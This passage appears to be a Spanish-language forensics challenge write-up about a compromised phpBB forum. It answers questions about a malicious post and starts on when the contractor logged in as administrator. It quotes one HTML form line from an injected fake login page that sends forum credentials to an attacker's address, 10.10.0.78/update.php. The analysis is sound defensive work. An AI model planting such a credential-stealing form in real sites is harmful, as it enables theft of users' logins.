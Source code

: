 El post malicioso tiene como ID el número `9`.

---

## **4. *What is the full URI that the credential stealer sends its data to?***

Dentro de la misma tabla `phpbb_post` se encuentra un campo llamado `post_text`, que en el caso del post malicioso, contiene código HTML.

<img src="images/image-8.png" width="1250">

En la web [Code Beautify](https://codebeautify.org/htmlviewer) se puede formatear el código para representarlo de forma más legible.

<img src="images/image-9.png" width="1250">

La vista renderizada muestra un clon del foro en donde menciona que la sesión caducó y que es necesario iniciar sesión nuevamente.

Relacionado con este inicio se sesión, dentro del código HTML se encuentra el siguiente formulario:

```html
<form action="http://10.10.0.78/update.php" method="post" id="login" data-focus="username" target="hiddenframe">
```

La URL que utilizó el atacante para recibir las credenciales fue `http://10.10.0.78/update.php`.

---

## **5. *When did the contractor log into the forum as the administrator? (UTC)***

Los logs se registran en la tabla `phpbb_log`.

<img src="images/image-10.png" width="150">
